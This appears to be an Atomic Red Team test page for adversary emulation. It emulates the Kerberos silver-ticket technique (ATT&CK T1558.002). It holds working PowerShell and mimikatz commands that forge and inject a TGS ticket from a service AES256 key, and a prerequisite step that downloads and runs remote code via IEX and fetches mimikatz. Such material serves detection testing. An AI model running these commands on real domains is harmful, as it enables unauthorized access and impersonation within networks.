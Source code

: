 # T1558.002 - Steal or Forge Kerberos Tickets: Silver Ticket
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1558/002)
<blockquote>

Adversaries who have the password hash of a target service account (e.g. SharePoint, MSSQL) may forge Kerberos ticket granting service (TGS) tickets, also known as silver tickets. Kerberos TGS tickets are also known as service tickets.(Citation: ADSecurity Silver Tickets)

Silver tickets are more limited in scope in than golden tickets in that they only enable adversaries to access a particular resource (e.g. MSSQL) and the system that hosts the resource; however, unlike golden tickets, adversaries with the ability to forge silver tickets are able to create TGS tickets without interacting with the Key Distribution Center (KDC), potentially making detection more difficult.(Citation: ADSecurity Detecting Forged Tickets)

Password hashes for target services may be obtained using [OS Credential Dumping](https://attack.mitre.org/techniques/T1003) or [Kerberoasting](https://attack.mitre.org/techniques/T1558/003).

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Crafting Active Directory silver tickets with mimikatz](#atomic-test-1---crafting-active-directory-silver-tickets-with-mimikatz)


<br/>

## Atomic Test #1 - Crafting Active Directory silver tickets with mimikatz
Once the hash of service account is retrieved it is possible to forge Kerberos ticket granting service (TGS) tickets, also known as silver tickets.
The generated ticket is injected in a new empty Windows session and discarded after, so it does not pollute the current Windows session.

**Supported Platforms:** Windows


**auto_generated_guid:** 385e59aa-113e-4711-84d9-f637aef01f2c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domain_sid | SID of the targeted domain, if you keep default it will automatically get the current domain SID | string | S-1-5-21-DEFAULT|
| domain | Targeted Active Directory domain FQDN | string | %userdnsdomain%|
| account | Account to impersonate | string | silverticketfakeuser|
| target | System you want to target (Default will be logon server) | string | %logonserver:&#92;&#92;=%|
| service_aes256_key | AES256 key (you will need to set to match your service key for your target) | string | b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9|
| mimikatz_path | Mimikatz windows executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;mimikatz&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Remove-Item $env:TEMP\silver.bat -ErrorAction Ignore
Remove-Item $env:TEMP\silver.txt -ErrorAction Ignore

# get current domain SID if default was used
$domain_sid = "#{domain_sid}"
If ($domain_sid -Match "DEFAULT") {
  # code from https://www.sevecek.com/EnglishPages/Lists/Posts/Post.aspx?ID=60
  $domain = gwmi Win32_ComputerSystem | Select -Expand Domain
  $krbtgtSID = (New-Object Security.Principal.NTAccount $domain\krbtgt).Translate([Security.Principal.SecurityIdentifier]).Value
  $domain_sid = $krbtgtSID.SubString(0, $krbtgtSID.LastIndexOf('-'))
}

# create batch file with commands to run in a separate "runas /netonly" session
# so we don't purge Kerberos ticket from the current Windows session
# its output goes to silver.txt temp file, because we cannot capture "runas /netonly" output otherwise
@"
>%TEMP%\silver.txt 2>&1 (
  echo Purge existing tickets and create silver ticket:
  klist purge
  #{mimikatz_path} "kerberos::golden /domain:#{domain} /sid:DOMAIN_SID /aes256:#{service_aes256_key} /user:#{account} /service:HOST /target:#{target}.#{domain} /ptt" "exit"

  echo.
  echo executing:schtasks /query /S #{target}.#{domain}
  schtasks /query /S #{target}.#{domain}
  
  echo.
  echo Tickets after requesting schtasks:
  klist

  echo.
  echo End of Silver Ticket attack
)
"@ -Replace "DOMAIN_SID", $domain_sid | Out-File -Encoding OEM $env:TEMP\silver.bat

# run batch file in a new empty session (password and username do not matter)
echo "foo" | runas /netonly /user:fake "$env:TEMP\silver.bat" | Out-Null

# wait until the output file has logged the entire attack
do {
  Start-Sleep 1 # wait a bit so the output file has time to be created
  Get-Content -Path "$env:TEMP\silver.txt" -Wait | ForEach-Object {
    if ($_ -match 'End of Silver Ticket attack') { break } 
  }
} while ($false) # dummy loop so that 'break' can be used

# show output from new empty session
Get-Content $env:TEMP\silver.txt

# cleanup temp files
Remove-Item $env:TEMP\silver.bat -ErrorAction Ignore
Remove-Item $env:TEMP\silver.txt -ErrorAction Ignore
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$mimikatz_exe = cmd /c echo #{mimikatz_path}
$basePath = Split-Path $mimikatz_exe | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```




<br/>
